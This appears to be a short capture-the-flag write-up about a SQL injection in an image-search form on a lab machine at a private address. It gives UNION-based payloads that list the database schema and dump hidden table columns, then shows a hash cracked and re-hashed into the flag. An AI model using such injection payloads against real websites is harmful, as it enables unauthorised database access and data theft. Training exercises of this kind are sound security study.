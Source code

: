 We have a form to fill at the page "http://192.168.56.102/?page=searchimg".

<img width="1306" alt="Screen Shot 2021-12-10 at 2 11 06 PM" src="https://user-images.githubusercontent.com/64800542/145579593-9d159bb7-1bd0-4615-bb9d-babeff46d94a.png">

It looks like the backend use the input from it right in an SQL statement. So we can use it for an "injection".

<img width="1065" alt="Screen Shot 2021-12-10 at 2 11 19 PM" src="https://user-images.githubusercontent.com/64800542/145579368-50a7ec60-23f2-46e4-ad40-63521d51794b.png">

Let's take a look on schema:

>1 OR 1=2 UNION SELECT table_name, column_name FROM information_schema.columns

Now we know all the columns and names:

Let's see what is inside the hidden columns:

>1 AND 1=2 UNION SELECT id, CONCAT(title, comment) FROM list_images;

>1928e8083cf461a51303633093573c46 >> md5 >> albatroz >> lower() >> sh256 >> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

<img width="1300" alt="Screen Shot 2021-12-10 at 2 10 40 PM" src="https://user-images.githubusercontent.com/64800542/145579607-68586bd0-ebd0-4fcd-912d-4890cff96791.png">






<img width="812" alt="Screen Shot 2021-12-10 at 2 13 42 PM" src="https://user-images.githubusercontent.com/64800542/145579626-4af4b610-c581-4b87-9014-7d0dd0f647f3.png">

<img width="1071" alt="Screen Shot 2021-12-10 at 2 14 06 PM" src="https://user-images.githubusercontent.com/64800542/145579637-c52cf9c1-6c6b-4d54-92a3-e9a4e22571c2.png">


